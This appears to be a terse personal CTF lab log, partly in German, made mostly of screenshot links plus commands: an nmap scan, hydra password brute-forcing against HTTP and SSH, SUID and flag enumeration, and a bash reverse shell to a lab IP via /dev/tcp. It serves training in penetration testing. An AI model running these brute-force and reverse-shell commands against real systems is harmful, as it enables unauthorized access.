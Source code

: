 ```yaml
---
tags: []
---
```

`nmap 192.168.56.0/24`
mit allen ports
-T4 damit keine firewallfaxen
![[Pasted image 20250117175643.png]]
![[Pasted image 20250117175813.png]]
![[Pasted image 20250117175921.png]]
![[Pasted image 20250117180005.png]]
![[Pasted image 20250117180023.png]]
![[Pasted image 20250117180037.png]]
![[Pasted image 20250117180113.png]]
![[Pasted image 20250117180209.png]]
![[Pasted image 20250117180747.png]]
![[Pasted image 20250117180729.png]]
![[Pasted image 20250117181656.png]]
python file für proof zeigen
github.com/danielmiessler/SecLists/blob/master/Passwords/Common-Credentials/10-million-password-list-top-10000.txt
https://tylerrockwell.github.io/defeating-basic-auth-with-hydra/
`hydra -l user -P pw.txt -s 55487 -f 192.168.15.3 http-get /`
![[Pasted image 20250117182116.png]]
![[Pasted image 20250117182208.png]]
`FLAG{use_secure_credentials}`
![[Pasted image 20250117183032.png]]
![[Pasted image 20250117183014.png]]
![[Pasted image 20250117183153.png]]
![[Pasted image 20250117183736.png]]
`ls -R *`
![[Pasted image 20250117190434.png]]
![[Pasted image 20250117191517.png]]
![[Pasted image 20250117191545.png]]
`hydra -l GrumpyCat -P pw.txt 192.168.15.3 ssh -t 4`
`find -perm -4000 2> /dev/null`
![[Pasted image 20250117195129.png]]
`cat /proc/741/cmdline`
`find -name "ctf_server.py" 2> /dev/null`
https://superuser.com/questions/632979/if-i-know-the-pid-number-of-a-process-how-can-i-get-its-name
![[Pasted image 20250117202527.png]]
https://medium.com/techiepedia/series-of-ctf-machines-walkthrough-4-linux-privilege-escalation-enumeration-247899027be
`ls -R * 2>dev/null| grep -i flag`
`cat /usr/local/bin/flag_process.sh`
![[Pasted image 20250117204436.png]]
![[Pasted image 20250117211103.png]]
![[Pasted image 20250117211250.png]]
![[Pasted image 20250117211407.png]]
![[Pasted image 20250117211426.png]]
https://www.exploit-db.com/exploits/42274


https://www.puckiestyle.nl/upgrading-netcat-shells-to-meterpreter-sessions/
`bash -i> /dev/tcp/192.168.15.4/6969 0>&1`
![[Pasted image 20250117234351.png]]
![[Pasted image 20250117234356.png]]
![[Pasted image 20250117234535.png]]

suid thing
```bash
find / -type f -perm -4001 -exec ls -h {} \; 2> /dev/null
```

